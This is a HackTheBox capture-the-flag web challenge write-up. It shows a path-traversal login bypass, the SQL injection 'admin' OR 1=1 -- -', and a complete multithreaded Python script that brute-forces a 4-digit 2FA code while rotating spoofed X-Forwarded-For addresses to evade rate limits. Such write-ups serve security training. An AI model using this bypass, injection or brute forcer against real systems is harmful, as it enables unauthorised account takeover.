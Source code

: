 ```yaml
---
title: No Threshold
tags:
  - HackTheBox
  - Challenge
  - Web
---
```

![](Pasted%20image%2020241122112333.png)

It seems to be kinda shop. If I try to login I get a Forbidden error:

![](Pasted%20image%2020241122112404.png)

I have to bypass this, so I captured the request with Burp:

![](Pasted%20image%2020241122112445.png)

> With `/../auth/login` I can bypass it :D

![](Pasted%20image%2020241122112522.png)

If we read the `entrypoint.sh` we notice that there is a random user created, so might be a SQLi vulnerability on the login:

![](Pasted%20image%2020241122112746.png)

I captured the request and try some SQLis:

![](Pasted%20image%2020241122113207.png)

It actually worked with `admin' OR 1=1 -- -` (URL encoded) :D

Now I got into a 2FA panel verification:

![](Pasted%20image%2020241122113324.png)

Inspecting the source code, I noticed that the 2FA code has 4 digits, so I can try to bruteforce it:

![](Pasted%20image%2020241122113530.png)

So I decided to create a python script to bruteforce it:

```python
import requests
import sys
import argparse
from concurrent.futures import ThreadPoolExecutor

# Colores para las impresiones
GREEN = '\033[92m'
BLUE = '\033[94m'
RED = '\033[91m'
RESET = '\033[0m'

def get_combinations_in_array(path):
    with open(path, 'r') as f:
        return f.read().splitlines()


def handle_response(response, combination):
    if "Invalid 2FA Code!" in response.text:
        # Mostrar intentos en verde
        print(f'{GREEN}Try: {combination}{RESET}\n')
        return
    elif "flag" in response.text:
        # Mostrar flag en azul
        print(f'{BLUE}GOT IT!\n2FA Code: {combination}\n{response.text}{RESET}\n')
        sys.exit()
    else:
        # Mostrar errores en rojo
        print(f'{RED}{response.text}{RESET}')


def send_request(ip, combination, headers, url):
    headers['X-Forwarded-For'] = ip
    data = {'2fa-code': str(combination)}

    response = requests.post(url, headers=headers, data=data)
    handle_response(response, combination)


def send_all_requests(url, combinations_array, ip_suffix):
    base_ip = '192.168.'
    current_ip_suffix = list(map(int, ip_suffix.split('.')))  # Convertir a lista de enteros
    headers = {
        'Host': '83.136.254.158:36141',
        'Content-Length': '13',
        'Cache-Control': 'max-age=0',
        'Origin': 'http://83.136.254.158:36141',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8',
        'Sec-GPC': '1',
        'Accept-Language': 'en-US,en',
        'Referer': 'http://83.136.254.158:36141/auth/verify-2fa',
        'Accept-Encoding': 'gzip, deflate, br',
        'Connection': 'keep-alive'
    }

    # Multi-threading requests sending (see python ThreadPoolExecutor lib for more information)
    with ThreadPoolExecutor(max_workers=100) as executor:
        futures = []

        for i, combination in enumerate(combinations_array, start=1):
            ip = base_ip + str(current_ip_suffix[0]) + '.' + str(current_ip_suffix[1])

            future = executor.submit(send_request, ip, combination, headers, url)
            futures.append(future)

            if i % 5 == 0:
                current_ip_suffix[1] += 1

            if current_ip_suffix[1] > 254:
                current_ip_suffix[1] = 1
                current_ip_suffix[0] += 1

            if current_ip_suffix[0] > 254:
                current_ip_suffix = [1, 1]

            for future in futures:
                future.result()


def parse_arguments():
    parser = argparse.ArgumentParser(description="Brute force 2FA codes to find the flag.")
    parser.add_argument('--target', type=str, required=True, help='The target URL (e.g., http://example.com)')
    parser.add_argument('--combinations', type=str, required=True, help='Path to the file containing the list of 2FA combinations')
    parser.add_argument('--ip-suffix', type=str, required=True, help='The IP suffix to use for requests (e.g., 1.1)')

    return parser.parse_args()


if __name__ == '__main__':
    args = parse_arguments()

    combinations_array = get_combinations_in_array(args.combinations)
    send_all_requests(args.target, combinations_array, args.ip_suffix)

```


>[!Note]
>Since the 2fa code valid time is 5 mins, I'm splitting the wordlist into 5 wordlists of 2000 words each

![](Pasted%20image%2020241122170553.png)

I created the wordlists with the following commands:

```shell
seq -w 0000 2000 > 0k2k-digit-wordlist.txt
seq -w 2001 4000 > 2k4k-digit-wordlist.txt
seq -w 4001 6000 > 4k6k-digit-wordlist.txt
seq -w 6001 8000 > 6k8k-digit-wordlist.txt
seq -w 8001 9999 > 8k10k-digit-wordlist.txt

# Then open a console for each one like:
python x.py --target http://83.136.254.158:36141/auth/verify-2fa --combinations ./4k6k-digit-wordlist.txt  --ip-suffix 13.1
```

I executed different intervals at same time:

![](Pasted%20image%2020241122171242.png)

> Finally got it :D

![](Pasted%20image%2020241122171427.png)

==Challenge completed!==